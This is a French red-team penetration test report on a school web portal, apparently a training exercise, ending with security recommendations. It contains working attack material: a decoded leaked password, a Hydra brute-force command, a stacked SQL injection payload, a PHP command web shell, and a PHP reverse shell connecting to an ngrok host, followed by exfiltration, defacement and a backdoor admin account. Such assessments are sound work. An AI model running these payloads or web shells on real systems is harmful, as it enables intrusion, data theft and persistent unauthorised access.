


# Rapport de Pentest Red Team

Voici le compte-rendu détaillé du test d’intrusion mené par l’équipe Red Team à la demande d’Arthur Berret, dans le but d’évaluer la sécurité du portail de l’ECE et, en pratique, de le compromettre. Les éléments contextuels issus du document Situation.md ont été utilisés pour orienter nos recherches et cibler nos actions.

## 1. Reconnaissance et collecte d’information

### 1.a. Reconnaissance passive
#### **Informations sur le portail ECE**
- Sécurité négligée : Certaines normes et recommandations de sécurité n’auraient pas été respectées, laissant potentiellement des vulnérabilités exploitables. (HTTP et pas HTTPS)
- Développement non professionnel : La page professeur du site a été développée par un stagiaire, ce qui peut indiquer un manque de rigueur dans l’implémentation des mesures de sécurité. (peut être possibilité de faille basique comme de l’injection SQL)

#### **Cibles potentielles et points d’entrée humains (ingénierie sociale)**

##### Cibles étudiantes :
- Antoine Poireaux : Étudiant passionné d’informatique mais tête en l’air => Risque de fuite d’informations involontairement ou même réponse à du phishing
- Alban Tagoniste : Manque de rigueur en cybersécurité. Il a mentionné publiquement avoir chiffré ses mots de passe sur son compte Twitter, ce qui peut être une source d’information précieuse. Possibilité d’obtenir des indices sur ses habitudes ou même une fuite de credentials. (voir partie OSINT)

##### Cibles enseignantes :
- Patrick Fourtou : Forte tendance à oublier des informations, ce qui veut sûrement signifier que son mot de passe est quelque chose de simple. Il est donc probable de le bruteforce à l’aide d’un logiciel comme Hydra.
- Jean-François Hittenger (Prof excentrique) : Attaché émotionnellement à son chien décédé et fan de Quinoa.Il peut alors avoir choisi un mot de passe en rapport avec ses deux attaches (exemple JackieQuinoa).

#### **Risques identifiés**
- Fuites d’informations via les réseaux sociaux (Twitter d’Alban).
- Possibles vulnérabilités sur la page professeur (développée par un stagiaire).
- Mot de passe peu/pas sécurisé (Bruteforce sur Patrick Fourtou, déduction possible du mot de passe de Jean-François Hittenger).

#### **OSINT/SOCMINT** :  
Nous avons vérifié les réseaux sociaux de certains membres mentionnés (en particulier le compte Twitter d’Alban Tagoniste) pour récupérer d’éventuels indices ou mot de passe exposés. Cette recherche a confirmé que des informations personnelles y ont été révélées. 

En effet Alban Tagoniste, sur de lui même sur la sécurité de son mot de passe, a décidé de le poster sur Twitter en le hachant.  

  

Il a ainsi été facile d’identifier la méthode de hachage, ici en base64. 

A l’aide de l’outil [CyberChef](https://gchq.github.io/CyberChef/) nous avons réussi à découvrir son mot de passe : 


 
Mot de passe haché : `aG5lZGY3XzVvMGMtMSZBd1BnZjU=`

Mot de passe décrypté : `hnedf7_5o0c-1&AwPgf5`

Pour ce qui est de son identifiant, des informations sont indiquées sur la page de connexion du site. Ainsi nous avons déduit que son identifiant est alban.tagoniste@edu.ece.fr

### 1.b. Reconnaissance active

#### **WhatWeb/Curl** : 
Dans notre rapport de test d'intrusion, nous avons effectué une reconnaissance active pour identifier les services et les technologies utilisés par le serveur cible. En utilisant la commande WhatWeb, nous avons pu déterminer que le serveur, situé à l'adresse IP 35.180.94.78, utilise Apache 2.4.56 sur un système Debian Linux. De plus, le serveur HTTPS est configuré avec PHP 8.0.30, et la page d'accueil semble être redirigée vers `/pages/index.php`. 


La commande `curl -I` a confirmé ces informations, révélant également que le serveur répond avec un code HTTP 302 (redirection temporaire) et que le contenu est de type `text/html` avec un encodage de caractères UTF-8. Ces résultats nous permettent de mieux comprendre l'environnement du serveur et d'identifier les potentielles vulnérabilités associées à ces technologies spécifiques.


## 2. Scanning & Énumération
 
### 2.a. Scan de ports
#### **Étude approfondie des résultats Nmap** :  

```bash
nmap -sS -sV -O 35.180.94.78
```


Dans la phase de reconnaissance active de notre test de pénétration, nous avons utilisé l’outil Nmap avec l’option `-sS` pour effectuer un scan SYN furtif sur l’hôte `35.180.94.78`, l’option `-sV` qui active la détection des versions de services et l’option `-O` qui active la détection de l'OS.

Ce scan nous a permis d’identifier que le port 80/tcp est ouvert, avec un service Apache HTTPD 2.4.56 fonctionnant sous Debian. L’analyse du système d’exploitation suggère que la machine tourne sur un environnement virtualisé, probablement Oracle VirtualBox, Slirp ou QEMU. Cependant, la détection de l’OS reste incertaine en raison du manque de ports ouverts et fermés pour affiner l’analyse. Enfin, la majorité des 999 autres ports sont filtrés, indiquant une probable présence d’un pare-feu ou de règles restrictives sur la machine cible.

#### **Scan de vulnérabilités** :  
  Nous avons également utilisé le script nmap `vulners` à la recherche de failles connues (CVE). Aucune vulnérabilité facilement exploitable n’a été détectée à ce stade par les outils automatisés.


### 2.b. Énumération
#### **Gobuster** : 

```bash
gobuster dir -u http://35.180.94.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


  - Le scan a été effectué à partir de la wordlist `directory-list-2.3-medium.txt` inclue dans Kali Linux comprenant 220560 mots.
  - Le scan a permis d’identifier plusieurs répertoires accessibles sur le serveur web, notamment /images, /login, /uploads, /pages, /css, /includes, /config et /server-status. La majorité des répertoires retournent un code 301 (redirection), sauf /server-status, qui est protégé (403).
  - La présence de /login indique une potentielle interface d’authentification, qui pourrait être ciblée pour des attaques par force brute ou des tests d’injection.
  - Les répertoires /uploads et /config sont particulièrement sensibles, car ils pourraient contenir des fichiers exploitables ou des configurations mal sécurisées.

On a donc essayé de faire un autre scan en se concentrant sur le dossier `/config/`

```bash
gobuster dir -u http://35.180.94.78/config/ -w /usr/share/wordlists/dirbuster/dirb/common.txt -x php,txt,conf,json,yml,xml,backup,zip,tar,sql
```


  - Le scan a été effectué à partir d’une wordlist “common.txt” inclue dans Kali Linux comprenant 4612 mots.
  - Le scan a ciblé des fichiers sensibles avec différentes extensions (php, txt, conf, json, yml, xml, backup, zip, tar, sql).
  - La majorité des fichiers retournent un code 403 (accès refusé), sauf db.php, qui est autorisé (200).

On va donc creuser vers le fichier `db.php`.


Ce fichier semble vide, on va inspecter la page pour voir si il l’est vraiment.


Ce fichier db.php est effectivement vide, il y a donc probablement rien à tirer de celui-ci.


#### **Dirb** : 

```bash
dirb http://35.180.94.78 /usr/share/wordlists/dirb/common.txt
```


  - Le scan a été effectué à partir d’une wordlist “common.txt” inclue dans Kali Linux comprenant 4612 mots.
  - Le scan a confirmé les résultats trouvés avec Gobuster en révélant les mêmes répertoires, avec en plus la présence de fichiers spécifiques comme /pages/index.php et /pages/admin.php, suggérant une interface d’administration potentielle.


## 3. Exploitation des vulnérabilités

### 3.a. Exploitation automatique

#### **Hydra pour la page de login** :  
Lors de notre analyse du fichier `situation.md`, nous avons conclu que le professeur Patrick Fourtou représentait une cible idéale pour une attaque par force brute. Pour mener cette attaque, nous avons utilisé l’outil Hydra, qui permet d'automatiser les tentatives de connexion sur une page PHP en spécifiant un nom d’utilisateur et en testant une liste de mots de passe.

Grâce aux indications visibles sur la droite de la page de connexion, nous avons identifié le nom d’utilisateur comme étant pfourtou. Nous avons ensuite utilisé la wordlist RockYou, qui contient une vaste collection des mots de passe les plus couramment utilisés. Hydra a finalement révélé que son mot de passe était "password".
Voici la commande utilisée :
```hydra -t 5 -l pfourtou -P /usr/share/wordlists/rockyou.txt 35.180.94.78 http-post-form “/login/login.php:username=^USER^:F=Nom d’utilisateur ou mot de passe incorrect. “ ```




Accès à la page professeur de Patrick Fourtou


#### **SQLmap pour la base de données** :  
  Nous avons effectué des tests d’injection SQL sur les formulaires (connexion, recherche, etc.). SQLmap a détecté des champs vulnérables qui nous ont permis de récupérer des informations basiques sur la structure de la base. Cependant, elle était en grande partie chiffrée ou du moins stockée sous forme de hash. Nous avons pu extraire ces hash pour d’éventuelles attaques hors ligne.


### 3.b. Exploitation manuelle
#### **Injection SQL (pour dump la BDD encryptée)** :  
En accédant à une page dédiée aux professeurs, nous avons identifié plusieurs fonctionnalités intéressantes, notamment la possibilité de saisir du texte. Cette page permet d’enregistrer un cours en renseignant la classe, la matière, l’horaire et la salle.
Nous avons alors testé différentes entrées dans ces champs dont une tentative d’injection XSS qui s’est révélée infructueuse pour se rabattre sur une requête SQL. C’est ainsi que nous avons découvert que le champ dédié à la salle était vulnérable à une injection SQL. En exploitant cette faille avec la requête ci-dessous, nous avons pu afficher l’intégralité de la base de données des utilisateurs, entre autres informations sensibles. 
```bash
101'); SELECT * FROM users; --
```


Nous donnant ainsi ce résultat sur le haut de la page : 


#### **Script PHP pour Webshell / Reverse Shell** :  
  Après nous être connectés au portail avec le compte étudiant d’Alban Tagoniste, nous avons découvert une fonctionnalité de dépôt de fichiers ne restreignant pas l’extension `.php` . 


Afin de vérifier si le site allait interpréter et exécuter le code php contenu dans les fichiers déposés, nous avons soumis un simple script contenant la fonction `whoami`

```php
<?php
echo "<pre>";
system('whoami');
echo "</pre>";
?>
```


En naviguant sur le fichier déposé et voyant que les commandes s’exécutent correctement, nous déposons le script php suivant : 


```php
<?php
// Exemple d'utilisation : cmd.php?cmd=whoami

if (isset($_GET['cmd'])) {
    $commande = $_GET['cmd'];
    echo "<pre>";
    // Utilisation de shell_exec pour capturer la sortie complète
    $resultat = shell_exec($commande);
    echo htmlspecialchars($resultat); // pour éviter que le HTML casse l'a>
    echo "</pre>";
} else {
    echo "Aucune commande fournie. Utilisez : ?cmd=commande";
}
?>
```
Ce script nous permet d’obtenir un web shell, qui consiste à récupérer des commandes depuis les cookies de navigations dans l’url et de les exécuter dans le terminal de la machine hébergeant le site web. 


La commande `pwd` nous permet de savoir dans quelle arborescence de fichier se situe le site.
Ayant vu précédemment que les commandes sont exécutés depuis un utilisateur root, nous testons les différentes permissions octroyés, notamment la création de fichier avec la commande `35.180.94.78/uploads/travaux/67e3d9392c1a0_cmd.php?cmd=echo%20"this%20a%20test"%20>%20test.txt`. Nous avons en effet besoin d’encoder les espaces et caractères spéciaux afin qu’ils soient correctement interprétés par l’url.  


Nous essayons également de lister les dossier à la racine de la machine par la même méthode avec la commande suivante `cd%20..%2F..%2F..%2F..%2F..%2F%20%26%26%20pwd%20%26%26%20ls%20-la` ( soit `cd ../../../../../ && pwd && ls -la` en clair)


Avec cette approche, nous avons pu : 
- Lister l’arborescence des répertoires.
- Rechercher d’éventuels fichiers sensibles (configuration, logs, etc.).
- Confirmer l’identité et le degré d'autorité que le service web possède.

Afin d’avoir un accès plus pratique et plus poussé, nous passons à l’objectif de mettre en place un reverse shell sur la machine cible. Pour savoir si cela est possible, nous nous assurons au préalable que la machine hôte puisse émettre une connexion vers l’extérieur (nécessaire pour un reverse shell). Dans cette optique, on test voir si le site `google.com` est atteignable :


On obtient un ping réussi, nous indiquant que la machine hôte a les permissions pour émettre une connexion. De ce fait, nous préparons notre machine attaquante pour recevoir le shell. 
Nous commençons par établir un tunnel tcp Ngrok vers notre port 4444 pour deux raisons : 
Permettre d’exposer publiquement notre adresse IP et notre port de manière sécurisée
Ajouter une couche d’obfuscation entre notre IP réelle et la trace visible sur la machine cible, afin de ne pas directement donner notre position à une possible réponse de la part de la Blue Team.


*


Une fois le tunnel établi, nous établissons un listener sur le port 4444 via l’outil NetCat afin de recevoir la tentative de connexion de la machine cible.


Une fois le listener actif, nous déposons le script suivant via le site web : 

```php
<?php
// Reverse shell via ngrok
$ip = "7.tcp.eu.ngrok.io";
$port = 19659;

// Création de la connexion vers l'attaquant
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", [
    0 => $sock,
    1 => $sock,
    2 => $sock
], $pipes);
?>
```
Une fois le script déposé, il nous suffit simplement de naviguer vers l’emplacement de son fichier et la connexion s'établit, nous offrant un reverse shell sur la machine cible.


---

## 4. Post-Exploitation et Maintien d’Accès

### 4.a. Élévation de privilèges (Privilege Escalation) + tentative de docker escape
#### **Accès root** :  
  Comme le service web était configuré de manière laxiste, nous avions déjà pratiquement les droits root dès le reverse shell. Toutefois, à des fins de démonstration, nous avons préparé des outils comme linPEAS ou GTFObins pour repérer les chemins d’élévation de privilèges si besoin.
  Ayant également remarqué par la présence d’un Dockerfile que nous étions dans un container, nous avons cherché à accéder à la machine hôte. Néanmoins, il semblerait que la configuration des containers ne nous permette pas de s’en échapper . (a ajuster en fonctions des infos dispo, parler potentiellement du dockerfile du serveur comme preuve, parler du –privileged et/ou des volumes montés)


### 4.b. Recherche d’informations et exfiltration de données (passer en 4.a?)
#### **Stratégie** :  
  Exploration du contenu de la machine piratée =>
  Nous avons exfiltré le fichier `init.sql` (base initiale) en le plaçant dans un répertoire accessible depuis le navigateur, permettant de le télécharger aisément. Cette approche rend l’exfiltration discrète puisque le trafic HTTP peut être banalisé.

### 4.c. Défaçage / Altération du site
#### **Modification de la page d’accueil** :  
  À titre de démonstration, nous avons injecté un message personnalisé (“Defaced by Red Team”) directement dans le code HTML de la page d’accueil. Les captures d’écran sont disponibles dans les annexes.


### 4.d. Persistance
#### **Ajout d’un compte administrateur compromis** :  
  Dans la base de données, nous avons inséré un nouveau compte doté de privilèges administrateur, avec un mot de passe hashé, nous permettant de rétablir l’accès ultérieurement.

---

## 5. Recommandations

### 5.a Renforcement des Pratiques de Développement

Il est crucial d'investir dans la formation continue des développeurs, notamment des stagiaires, sur les meilleures pratiques en matière de sécurité. Par exemple, organiser des ateliers mensuels sur les failles courantes comme les injections SQL et les moyens de les éviter. De plus, intégrer des outils d'analyse statique de code dans le processus de développement permettra de détecter automatiquement les vulnérabilités avant le déploiement.

### 5.b Sécurisation des Comptes et des Mots de Passe

L'implémentation d'une politique stricte de gestion des mots de passe est essentielle. Par exemple, exiger des mots de passe complexes avec au moins 12 caractères, incluant des majuscules, des chiffres, et des symboles. Activer l'authentification à deux facteurs (2FA) pour tous les comptes, en particulier ceux des administrateurs, ajoutera une couche supplémentaire de sécurité.

### 5.c Sécurisation des Applications Web

La migration vers HTTPS est indispensable pour chiffrer les communications entre les utilisateurs et le serveur. Utiliser des requêtes préparées pour les interactions avec la base de données permettra de prévenir les injections SQL. Par exemple, au lieu de construire des requêtes SQL dynamiquement avec des entrées utilisateur, utiliser des paramètres liés.

### 5.d Surveillance et Détection des Intrusions

Mettre en place un système de gestion des informations et des événements de sécurité (SIEM) permettra de surveiller en temps réel les activités suspectes. Configurer des alertes pour des comportements anormaux, comme plusieurs tentatives de connexion échouées, aidera à détecter rapidement les tentatives d'intrusion.

### 5.e Sécurisation des Infrastructures

Appliquer régulièrement les mises à jour de sécurité pour tous les systèmes et logiciels est crucial. Configurer des règles de pare-feu strictes pour limiter l'accès aux services non essentiels et segmenter le réseau pour isoler les environnements sensibles.

### 5.f Sensibilisation des Utilisateurs

Enfin, sensibiliser les utilisateurs aux techniques de phishing et aux bonnes pratiques en matière de cybersécurité est essentiel. Par exemple, organiser des simulations de phishing pour éduquer les utilisateurs sur la manière de reconnaître et de réagir aux tentatives de phishing.


---

## Conclusion

Le portail ECE présente plusieurs failles significatives, permettant à un attaquant persévérant d’en prendre rapidement le contrôle total. Les failles de conception (formulaire web, répertoires non sécurisés), combinées à une gestion insuffisante de la sécurité au niveau des conteneurs et des bases de données, exposent l’infrastructure à des risques majeurs (vol de données, défaçage, altération des contenus pédagogiques).

Un plan d’action prioritaire devrait inclure la mise à jour des composants obsolètes, la correction des injections SQL, la limitation du bruteforce et la surveillance accrue des accès. L’équipe de développement et l’équipe de sécurité devront collaborer pour définir rapidement un patch correctif et procéder à des tests de vulnérabilités récurrents.

Rapport rédigé par la Red Team.  


